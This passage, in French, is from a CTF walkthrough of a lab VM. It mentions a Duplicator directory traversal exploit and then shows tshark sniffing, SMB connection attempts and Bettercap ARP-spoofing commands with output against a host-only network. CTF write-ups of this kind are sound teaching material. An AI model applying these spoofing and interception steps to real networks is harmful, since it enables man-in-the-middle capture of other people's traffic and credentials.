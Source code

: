 Ça devient intéressant car le plugin *Duplicator* est [vulnérable à une faille de directory traversal](https://www.wordfence.com/blog/2020/02/active-attack-on-recently-patched-duplicator-plugin-vulnerability-affects-over-1-million-sites/). L'exploitation [est triviale](https://www.exploit-db.com/exploits/50420) et il y a aussi [un template Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-11738.yaml) pour cette vulnérabilité.  

Seulement *Nuclei* ne détecte pas la vulnérabilité et une exploitation manuelle n'aboutit pas non plus...  

Who has Bob? Tell Alice
-----------------------

Après toujours plus d'énumération mais pas plus de résultats j'ai demandé un indice à l'auteur du CTF qui m'a conseillé d'écouter le réseau.  

```bash
sudo tshark -i vboxnet0
```

Après un moment j'ai remarqué que la VM tentait de se connecter sur les ports SMB du router VirtualBox (si la VM est configurée en mode *Réseau privé hôte*, VirtualBox défini une IP pour un routeur virtuel).  

```plain
    9 147.411538079 192.168.56.24 → 192.168.56.1 TCP 74 44644 → 445 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=3050540630 TSecr=0 WS=128 
   10 147.411609532 192.168.56.1 → 192.168.56.24 TCP 54 445 → 44644 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0 
   11 147.430322712 192.168.56.24 → 192.168.56.1 TCP 74 38828 → 139 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=3050540648 TSecr=0 WS=128 
   12 147.430392257 192.168.56.1 → 192.168.56.24 TCP 54 139 → 38828 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
```

Il nous faudrait prendre la place du router (192.168.56.1) et mettre en écoute un serveur SMB pour voir si on peut capter quelque chose d'intéressant.  

L'idée pour *prendre la place* du routeur aux yeux de la victime (192.168.56.24) est de la bombarder de réponses ARP associant notre adresse MAC à l'adresse IP du routeur.  

Il y a différents outils pour faire ceci, de l'utilitaire *arpspoof* (inclus dans le paquet *dsniff* de mémoire), Ettercap ou encore [Bettercap](https://www.bettercap.org/) qui est celui que j'ai choisi.  

Ne trouvant pas de paquets officiels pour ma distribution, je me suis servi de l'image Docker   

```bash
docker run -it --privileged --net=host bettercap/bettercap -iface vboxnet0
```

Sans être expert Docker je suppose que l'option *--net=host* intègre les interfaces de l'hôte dans le container. Il faut ensuite définir notre cible et activer le ARP spoofing :  

```plain
192.168.56.0/24 > 192.168.56.1  » [14:57:34] [sys.log] [war] Could not find mac for  
192.168.56.0/24 > 192.168.56.1  » set arp.spoof.targets 192.168.56.24 
192.168.56.0/24 > 192.168.56.1  » arp.spoof on 
[14:58:10] [sys.log] [inf] arp.spoof starting net.recon as a requirement for arp.spoof 
192.168.56.0/24 > 192.168.56.1  » [14:58:10] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets. 
192.168.56.0/24 > 192.168.56.1  » [14:58:10] [endpoint.new] endpoint 192.168.56.24 detected as 08:00:27:73:ac:d3 (PCS Computer Systems GmbH).
```
